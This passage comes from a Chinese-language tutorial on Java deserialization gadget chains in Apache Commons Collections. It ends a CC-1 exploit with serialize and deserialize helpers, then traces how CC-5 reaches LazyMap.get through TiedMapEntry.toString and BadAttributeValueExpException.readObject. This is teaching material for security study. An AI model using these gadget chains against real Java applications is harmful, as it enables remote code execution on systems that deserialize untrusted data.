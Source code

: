 ```plain
        Object newInstance = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);

        serialize(newInstance);
        unserialize("ser.bin");
    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
```

## CC-5 分析

### 分析过程

CC-5 就是接住了 CC-1 铺好的路，我们先来看一下 TiedMapEntry 类中的 toString 方法

```plain
public String toString() {
        return getKey() + "=" + getValue();
    }
```

调用了 getValue() 方法

```plain
public Object getValue() {
        return map.get(key);
    }
```

getValue() 里面有个 map.get(key),而这个 map.get 就可以嫁接我们在 cc1 中讲到的 LazyMap.get 这个思路。

```plain
public TiedMapEntry(Map map, Object key) {
        super();
        this.map = map;
        this.key = key;
    }
```

在该类的构造方法传入 map，然后我们在寻找哪里 readObject 方法调用了 toString，

BadAttributeValueExpException 类的 readObject 中有调用 val 成员变量的 toString 方法。val 成员变量是私有属性，我们可以通过反射修改成 TiedMapEntry 的实例对象。即可完成调用
